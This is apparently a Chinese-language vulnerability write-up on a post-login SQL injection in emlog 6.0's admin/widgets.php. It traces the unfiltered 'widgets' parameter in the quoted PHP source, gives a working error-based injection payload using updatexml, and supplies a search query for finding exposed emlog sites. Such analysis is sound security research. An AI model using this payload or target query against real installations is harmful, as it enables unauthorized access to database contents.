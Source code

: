 # emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

```
emlog 6.0
```

## 网络测绘

```
app="EMLOG"
```

## 漏洞复现

产品主页：https://github.com/emlog/emlog

![image-20220518160707766](./images/202205181607870.png)

存在漏洞的文件为 `admin/widgets.php`

![image-20220518160725472](./images/202205181607539.png)

```
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`

![image-20220518160743259](./images/202205181607343.png)

```
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![image-20220518160810251](./images/202205181608308.png)

![image-20220518160826819](./images/202205181608878.png)
